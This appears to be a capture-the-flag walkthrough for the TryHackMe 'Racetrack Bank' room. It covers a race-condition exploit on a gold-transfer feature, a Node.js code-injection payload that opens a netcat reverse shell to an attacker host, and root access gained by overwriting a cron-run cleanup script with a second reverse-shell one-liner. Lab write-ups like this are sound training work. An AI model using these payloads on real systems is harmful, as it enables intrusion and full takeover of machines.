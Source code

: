 # [Racetrack Bank](https://tryhackme.com/room/racetrackbank)

## It's time for another heist

# Flags

## Hack into the machine and capture both the user and root flags! It's pretty hard, so good luck.

### User flag

_What does the name of the bank hint at?_

1. Perform network reconnaissance to identify available services

```bash
nmap -sV <TARGET_IP>
```

<img width="722" height="180" alt="SCREEN01" src="https://github.com/user-attachments/assets/eb3b4796-da69-4504-8d8a-bd9893661a72" />

2. Navigate to `http://<TARGET_IP>` and register a new user account. After logging in, examine the application functionality, particularly the gold transfer mechanism and premium account purchase option at `http://<TARGET_IP>/purchase.html`

3. Create a second user account to facilitate the race condition attack
   - Configure Burp Suite as a proxy and intercept traffic
   - Initiate a gold transfer from the first account to the second account
   - Capture the POST request containing the transfer parameters
   - Create a second POST request to transfer gold back from the second account to the first account
   - Group both requests in Burp Suite's Repeater tool
   - Execute "Send group (parallel)" repeatedly while gradually increasing the transfer amounts

This race condition occurs when the application fails to properly synchronize balance checks and updates, allowing multiple transactions to process simultaneously before balance validation completes.

<img width="1054" height="474" alt="SCREEN02" src="https://github.com/user-attachments/assets/f7e88ecb-5c7f-4ace-ad21-dc3e55e8222f" />

4. After accumulating sufficient gold through the race condition, purchase the premium account upgrade. This unlocks access to `http://<TARGET_IP>/premiumfeatures.html`.

<img width="1383" height="439" alt="SCREEN03" src="https://github.com/user-attachments/assets/32752c54-bbaf-453e-9354-0adc7e9da6e0" />

5. Prepare a netcat listener on the attacking machine

```bash
nc -lvnp 4444
```

6. The premium features page contains a Node.js code execution vulnerability. Input the following payload to establish a reverse shell:

```javascript
require("child_process").exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKER_IP> 4444 >/tmp/f')
```

7. Once the reverse shell connection is established, navigate to the user directory and retrieve the user flag

```bash
cat /home/brian
```

<img width="717" height="430" alt="SCREEN04" src="https://github.com/user-attachments/assets/451d410d-915e-48dc-9ae2-5b5c87fc3d19" />

---

### Root flag

_Experiment and be creative._

1. After gaining initial access as the `brian` user, conduct enumeration to identify privilege escalation vectors
   - Investigation reveals a cleanup directory in `/home/brian/cleanup` containing automated scripts

```bash
find / -perm -4000 2>/dev/null
crontab -l
ls -la /home/brian
```

2. Set up a new netcat listener for the privilege escalation

```bash
nc -lvnp 5555
```

3. The system runs periodic cleanup tasks that execute scripts from the cleanup directory. Exploit this by replacing the existing cleanup script

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
cd /home/brian/cleanup
rm -f cleanupscript.sh
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKER_IP> 5555 >/tmp/f' > cleanupscript.sh
chmod +x cleanupscript.sh
```

4. Wait for the cron job to execute the modified script

```bash
whoami
# Confirms root access
ls /root
cat /root/root.txt
```

<img width="474" height="183" alt="SCREEN05" src="https://github.com/user-attachments/assets/46c2dd62-5dee-4f65-a307-8036da1c9f90" />
